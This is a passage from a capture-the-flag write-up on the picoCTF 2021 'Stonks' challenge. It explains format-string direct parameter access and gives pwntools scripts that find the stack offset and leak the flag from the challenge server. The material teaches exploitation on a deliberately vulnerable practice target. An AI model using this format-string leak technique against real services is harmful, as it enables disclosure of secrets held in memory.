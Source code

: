 ```python
            print(f"Found start of flag ({FLAG_START}) with little endian at offset {i}")
        # Big endian case
        res_be = p32(int(out.decode(), 16), endianness="big").decode()
        if (res_be == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

Here I have used something called 'Direct Parameter Access'. With `%n$x` you can read the specified n:th integer from the stack and output it as hex.  
Since I sometimes screw up little and big endian I made sure to test both cases in the script.  
To make the output less chatty I set the log_level to `warning` (default is `info`).

Lets try the script out
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks/find_offset.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"What is your API token?\n", f"%{i}$x")
Found start of flag (pico) with little endian at offset 15
```

Pwntools complains about my f-string that isn't bytes, but otherwise it works beautifully.  
The offset to the start of the flag is `15` integers on the stack.

### Get the flag

Now, lets modify the script slightly and write a new script `get_flag.py` that retrieves all the flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mercury.picoctf.net'
PORT = 16439
offset = 15

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

flag = b''
keep_going = True
while keep_going:
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"2) View my portfolio\n", b"1")
    io.sendlineafter(b"What is your API token?\n", f"%{offset}$x")
    io.recvuntilS(b"Buying stonks with token:\n")
    out = io.recvline()
    try:
        res_le = p32(int(out.decode(), 16), endianness="little")
        flag += res_le
        if (b'}' in res_le):
            keep_going = False
    except Exception:
        pass
    io.recvall()
    io.close()
    offset += 1

print(flag)
```